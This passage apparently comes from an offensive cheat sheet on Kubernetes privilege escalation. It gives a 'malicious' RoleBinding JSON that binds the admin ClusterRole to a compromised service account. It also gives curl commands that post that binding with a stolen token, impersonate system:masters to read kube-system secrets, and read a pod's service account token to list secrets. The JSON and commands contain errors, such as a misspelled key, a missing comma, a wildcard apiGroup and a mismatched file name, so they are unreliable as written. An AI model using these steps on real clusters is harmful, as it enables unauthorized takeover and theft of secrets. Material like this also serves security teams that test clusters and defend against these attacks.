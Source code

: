 ### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account.
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespcaes": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token

```powershell
$ cat /run/secrets/kubernetes.io/serviceaccount/token
$ curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```

## Interesting endpoints to reach
